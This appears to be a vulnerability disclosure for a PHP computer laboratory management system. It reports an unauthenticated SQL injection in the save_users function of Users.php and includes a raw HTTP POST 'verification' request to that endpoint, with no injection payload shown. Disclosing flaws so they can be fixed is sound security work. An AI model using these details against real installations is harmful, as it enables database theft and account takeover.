


The Computer Laboratory Management System has an SQL injection vulnerability that could be exploited by an attacker to steal information or compromise a database without authentication.


Source code address：https://www.sourcecodester.com/php/17268/computer-laboratory-management-system-using-php-and-mysql.html


The vulnerability is located in the /classes/ users.php file, just look at save_users, go down to 58 lines of code, when the '$upload' variable is true, the avatar update operation is performed, and the field corresponding to the user ID in the 'Users' table is also updated. There are SQL statement concatenation, resulting in security risks.




Vulnerability verification：

```
POST /php-lms/classes/Users.php?f=save HTTP/1.1
Host: 192.168.80.152
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
DNT: 1
X-Requested-With: XMLHttpRequest
Content-Length: 797
Content-Type: multipart/form-data; boundary=---------------------------2824528375856
Connection: keep-alive

-----------------------------2824528375856
Content-Disposition: form-data; name="id"

1
-----------------------------2824528375856
Content-Disposition: form-data; name="firstname"

Adminstrator
-----------------------------2824528375856
Content-Disposition: form-data; name="middlename"

1111
-----------------------------2824528375856
Content-Disposition: form-data; name="lastname"

Admin
-----------------------------2824528375856
Content-Disposition: form-data; name="username"

admin
-----------------------------2824528375856
Content-Disposition: form-data; name="password"


-----------------------------2824528375856
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


-----------------------------2824528375856--

```




